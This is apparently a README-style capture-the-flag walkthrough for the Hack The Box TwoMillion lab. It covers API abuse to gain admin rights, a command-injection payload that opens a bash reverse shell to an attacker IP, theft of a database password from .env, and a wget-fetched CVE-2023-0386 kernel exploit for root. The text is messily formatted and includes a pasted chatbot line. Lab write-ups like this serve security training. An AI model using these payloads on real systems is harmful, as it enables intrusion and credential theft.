cat << 'EOF' > ../../../README.md
# Hack The Box Walkthroughs 🛡️

Welcome to my repository containing detailed, step-by-step writeups and solutions for Hack The Box (HTB) machines and challenges. 

## 📁 Directory Structure
* `Machines/`
  * `Linux/`
    * `TwoMillion/` → *Includes API enumeration, command injection, and CVE-2023-0386 root escalation.*
  * `Windows/`

## 🚀 Skills Covered
* Web Vulnerability Exploitation & API Logic Flaws
* Remote Code Execution (RCE) via Command Injection
* Linux Privilege Escalation (Kernel Exploits & OverlayFS / FUSE)
## 1. Reconnaissance & Enumeration
We begin by running an `nmap` scan against the target IP address (`10.129.229.66`) to discover open ports and services.
```bash
nmap 10.129.229.66

The scan reveals two open ports:   Port 22/tcp: SSH   Port 80/tcp: HTTP (2million.htb)   [cite: 22]

2. Finding the Invite PortalNavigating to http://2million.htb/invite in our browser presents an invite code prompt.     
 Inspecting the page source reveals a JavaScript reference to /js/inviteapi.min.js which handles verification and form submission.    
3. Enumerating API Endpoints & Decoding the Invite CodeWe query the /api/v1/invite/how/to/generate endpoint using curl to find out how to get an invite code:   Bash
curl -sX POST [http://2million.htb/api/v1/invite/how/to/generate](http://2million.htb/api/v1/invite/how/to/generate) | jq
The server returns a ROT13-encrypted message indicating we need to make a POST request to /api/v1/invite/generate.      
Next, we request the invite code from the generated endpoint and decode the resulting base64 string:   Bash  curl -sX POST [http://2million.htb/api/v1/invite/generate](http://2million.htb/api/v1/invite/generate) | jq
echo "VjlYODEtNkJIUzktQjlUODMtMlMzTFo=" | base64 -d
Decoded Invite Code: V9X81-6BHS9-B9T83-2S3LZ      
4. Capturing Session Cookies via Burp SuiteAfter registering and logging into the dashboard, we capture requests via Burp Suite, specifically inspecting the VPN generation route and pulling our session cookie (PHPSESSID).   
   
5. Testing API Routes with curl
We test API authorization levels by querying the /api endpoint with curl in verbose mode, both unauthenticated (receiving 401 Unauthorized) and with our captured PHPSESSID cookie.
curl -sv 2million.htb/api
   Bashcurl -sv 2million.htb/api --cookie "PHPSESSID=nufb0km8892s1t9kraqhgiecj6"

6. Further API Enumeration (/api/v1)
We continue mapping the API structure by exploring /api/v1 using our session cookie.

curl -sv 2million.htb/api/v1 --cookie "PHPSESSID=vjd6hbt5dv72ddb7j6piuoonkn"

  
Inspecting the JSON output reveals a full route map split between normal user capabilities and administrative routes under /api/v1/admin.    
7. Administrative Privilege Escalation
Reviewing the administrative API endpoints shows routes like /api/v1/admin/auth and /api/v1/admin/settings/update.
curl -sv 2million.htb/api/v1/admin/auth --cookie "PHPSESSID=vjd6hbt5dv72ddb7j6piuoonkn"
   Because our standard user is not yet an admin, the response returns "message": false.
We can elevate our privileges by updating our account settings using a PUT request to /api/v1/admin/settings/update, passing is_admin: 1 along with our user email:   
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=vjd6hbt5dv72ddb7j6piuoonkn" --header "Content-Type: application/json" --data '{"email":"test@2million.htb","is_admin":1}' | jq
The response confirms success with "is_admin": 1.   
8. Remote Code Execution (RCE) & Reverse ShellNow that we possess administrator rights, we can interact with /api/v1/admin/vpn/generate. This endpoint takes a username parameter to generate a customized OpenVPN configuration file.   
Testing the input reveals it is vulnerable to command injection via the username field. We inject a bash reverse shell payload:
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=vjd6" --header "Content-Type: application/json" --data '{"username":"sarp; bash -c \"bash -i >& /dev/tcp/10.10.15.194/4444 0>&1\" #"}'
Here is the continuation and final portion of the walkthrough for your README.md, documenting the remaining steps to extract database credentials, obtain the user flag, and complete root privilege escalation using CVE-2023-0386:

9. Local Enumeration & Database Credentials
Once connected via the reverse shell, we inspect the web root directory and read the .env configuration file, which reveals internal application credentials including a database password (SuperDuperPass123)
cd /var/www/html
cat .env
   Using these credentials or local access, we find our way to the admin user account, check mail hints in /var/mail/admin, and locate the user flag
10. Privilege Escalation via CVE-2023-0386 (OverlayFS)
Reading the system mail left for the admin reveals hints regarding recent Linux kernel vulnerabilities, specifically mentioning OverlayFS / FUSE issues:
cat /var/mail/admin


Exploit Transfer & Setup
On our attack machine, we package the CVE-2023-0386 exploit directory into a compressed archive:
tar -czf exploit.tar.gz CVE-2023-0386/

From the target machine under /tmp, we download the exploit package via wget:

cd /tmp
wget http://10.10.15.194:8000/exploit.tar.gz
tar -xvf exploit.tar.gz


11. Compiling and Executing the Exploit
Navigate into the extracted exploit directory, build the source files using make all, and prepare the binaries:
cd CVE-2023-0386
make all
   Grant execution permissions and execute ./exp to test the mount process: 
chmod +x exp fuse gc
./exp
   
12. Spawning a Root ShellTo finalize the privilege escalation chain, run the FUSE binary and execute the companion helper to trigger the OverlayFS vulnerability:  
./fuse ./ovlcap/lower ./gc &
   Running ./exp again successfully completes the exploit sequence, instantly dropping us into a root shell (uid=0(root)):     
We can now navigate to the root directory to retrieve the final root flag.
